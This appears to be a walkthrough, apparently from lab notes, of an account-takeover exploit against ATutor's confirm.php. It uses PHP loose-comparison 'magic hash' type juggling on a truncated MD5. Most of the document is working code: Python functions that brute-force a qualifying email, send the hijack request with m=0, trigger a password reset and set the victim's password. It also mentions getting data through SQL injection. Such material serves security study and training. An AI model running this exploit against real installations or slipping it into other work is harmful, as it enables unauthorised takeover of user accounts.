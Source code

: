 # Vulnerability Discovery

Unauthenticated attacker could gain access using type juggling vulnerability, through the code segment responsible for user account email address updates in the public `confirm.php` .

```php
if (isset($_GET['e'], $_GET['id'], $_GET['m'])) {
$id = intval($_GET['id']);
$m  = $_GET['m'];
$e  = $addslashes($_GET['e']);

$sql    = "SELECT creation_date FROM %smembers WHERE member_id=%d";
$row = queryDB($sql, array(TABLE_PREFIX, $id), TRUE);

if ($row['creation_date'] != '') {
 	$code = substr(md5($e . $row['creation_date'] . $id), 0, 10);
 	if ($code == $m) {
	 	$sql = "UPDATE %smembers SET email='%s', last_login=NOW(), creation_date=creation_date WHERE member_id=%d";
	 	$result = queryDB($sql, array(TABLE_PREFIX, $e, $id));
	 	$msg->addFeedback('CONFIRM_GOOD');
	 
	 	header('Location: '.$_base_href.'users/index.php');
	 	exit;
 	} else {
 			$msg->addError('CONFIRM_BAD');
 	}
} else {
	$msg->addError('CONFIRM_BAD');
}
```

The variable `$code` is initialized as the first 10 characters of the MD5 hash of 2 variables that we have control over and the `$creation_date` from the database. It is then loosely compared against the variable `$m` that we have control over. If we can pass the comparison statement, we can update the email to the value `$e`. 

We can use SQLi to obtain the `$creation_date` variable and use that to generate a magic hash. 

# Magic Hashes

The special case MD5 hash has the entire hash conforming to scientific exponent notation. However, since only the first 10 characters are compared, it is easier to generate a vulnerable string. 

```php
php > echo md5('240610708');
0e462097431906509019562988736854
```

## Generating hash

```php
$code = substr(md5($e . $row['creation_date'] . $id), 0, 10);
```

The values of the account ID needs to stay static as we are targeting a single account, and the value of the account creation date is pulled from the database. As such, only the `$e` variable, the new email address being provided for the target user, can be modified. 

- We also need to be able to generate an arbitrary email account for a domain we control once we find a valid email address. This will allow us to use the Forgot password feature to have a password reset email sent to that address.
- We can thus use a python script that will generates all possible combinations of email addresses using the alpha character set and a specified domain.

```python
def get_code (domain, id, creation_date):
    count = 0
    print("Searching for valid email......")
    
    for prefix_length in range(1, 5):
        for word in map(''.join,itertools.product(string.ascii_lowercase, \
            repeat=int(prefix_length))):

            raw_string = f"{word}@{domain}{creation_date}{id}"
            hash = hashlib.md5(raw_string.encode()).hexdigest()
            hash_prefix = hash[:10]
            
            if re.match(r'0+[eE]\d+$', hash_prefix):
                print(f"Valid hash: {hash_prefix}")
                print(f"Raw String: {raw_string}")
                return word

    raise Exception("No valid email found!")
    return ""
```

# Account Hijacking request

Since a successful request will direct us to `users/index.php`, we can use the 302-request status code to detect a successful request. 

```python
def hijack_account(ip, email_prefix, domain, member_id):
    email = f"{email_prefix}@{domain}"
    print(f"Hijacking account {member_id} with email {email}")
    
    target = f"http://{ip}/ATutor/confirm.php?id={member_id}&m=0&e={email}"
    r = requests.get(target, allow_redirects=False)
    if r.status_code == 302:
        return True
    else:
        return False
```

Once we perform the hijacking request, we can send a request to reset the password. 

```python
def password_reminder(ip, email_prefix, domain):
    email = f"{email_prefix}@{domain}"
    print(f"Sending reset password email for email {email}.....")

    s = requests.Session()

    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8'
    }
    s.headers.update(headers)

    target = f"http://{ip}/ATutor/password_reminder.php"
    data = {
        "form_password_reminder": "true",
        "form_email": email,
        "submit": "Submit"
    }

    r = s.post(target, data=data)

    if re.findall('No account found with that email address', r.text):
        raise Exception("Password reset unsuccessful!")
    print("Password reset successful!")
    return s
```

After we obtain the password reset link from our Atmail server, we can use the link to reset the account’s password to one of our choosing. 

```python
def reset_password(ip, password_url):
    print("Resetting Password.....")
    s = requests.Session()

    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8'
    }
    s.headers.update(headers)

    r = s.get(password_url)

    params = {}
    params_strings = password_url.split('?')[1].split('&')
    for param in params_strings:
        x = param.split('=')
        if len(x) != 2: 
            raise ("Invalid URL!")
        params[x[0]] = x[1]
    
    target = f'http://{ip}/ATutor/password_reminder.php'
    PASSWORD = 'Bromine1!'
    password_hash = hashlib.sha1(PASSWORD.encode()).hexdigest()

    data = {
        'form_change': 'true',
        'id': params['id'],
        'g': params['g'],
        'h': params['h'], 
        'password': PASSWORD,
        'password2': PASSWORD,
        'form_password_hidden': password_hash,
        'password_error': '',
        'submit': 'Submit'
    }

    r = s.post(target, data=data)
```